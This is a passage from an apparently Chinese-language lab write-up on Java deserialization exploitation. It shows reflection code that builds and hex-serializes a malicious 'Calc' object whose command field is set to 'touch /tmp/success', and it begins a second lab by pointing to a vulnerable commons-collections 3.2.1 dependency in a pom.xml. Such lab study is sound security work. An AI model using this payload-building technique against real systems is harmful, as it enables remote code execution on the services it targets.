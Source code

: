 ```java
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }



    public static void main(String[] args) throws Exception {
        Calc c = new Calc();
        setFieldValue(c, "canPopCalc", true);
        setFieldValue(c, "cmd", "touch /tmp/success");

        System.out.println(Utils.objectToHexString(c));
    }

}
```

![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220331131636.png)

## lab2-ysoserial
jar包解压后的目录如下，主要关注自己写的类和pom.xml:
![](https://tuchuang-1300339532.cos.ap-chengdu.myqcloud.com/img/20220331133027.png)

在pom.xml中存在cc3.2.1的依赖，这样一来就很简单了:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.4.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>demo</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>javaDeserializeLabs</name>
    <description>javaDeserializeLabs</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
```